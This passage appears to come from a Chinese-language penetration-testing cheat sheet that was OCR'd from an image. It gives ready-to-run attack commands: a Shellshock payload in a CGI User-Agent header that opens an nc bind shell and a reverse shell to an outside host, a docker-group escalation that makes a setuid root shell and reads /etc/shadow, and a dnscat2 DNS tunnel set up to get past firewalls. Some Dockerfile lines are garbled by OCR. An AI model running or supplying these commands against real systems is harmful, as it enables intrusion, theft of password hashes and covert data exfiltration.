 > $ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
# 反弹 Shell
> $ nc -l -p 443
> $ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
获取 Docker 的 Root
# 获取  Docker 的 Root
# user 必须在 docker 用户组中
ek@victum:~/docker-test> $ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)
ek@victum:~> $ mkdir docker-test
ek@victum:~> $ cd docker-test
ek@victum:~> $ cat > Dockerfile
FROM debian:wheezy
ENV WORKDIR /stuff
RUN mkdir -p > $WORKDIR
VOLUME [ > $WORKDIR ]
WORKDIR > $WORKDIR
<< EOF
ek@victum:~> $ docker build -t my-docker-image .
ek@victum:~> $ docker run -v > $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root
ek@victum:~> $ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
使用 DNS 隧道绕过防火墙
# 让数据和命令使用 DNS 隧道传输以绕过防火墙的检查
# dnscat2 支持从目标主机上面上传和下载命令来获取文件、数据和程序
# 服务器 (攻击者)
> $ apt-get update
> $ apt-get -y install ruby-dev git make g++
> $ gem install bundler
> $ git clone https://github.com/iagox86/dnscat2.git
> $ cd dnscat2/server
> $ bundle install
> $ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059
# 客户机 (目标)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
> $ dnscat --host <dnscat server_ip>
编译 Assemble 代码
> $ nasm -f elf32 simple32.asm -o simple32.o
> $ ld -m elf_i386 simple32.o simple32
> $ nasm -f elf64 simple.asm -o simple.o
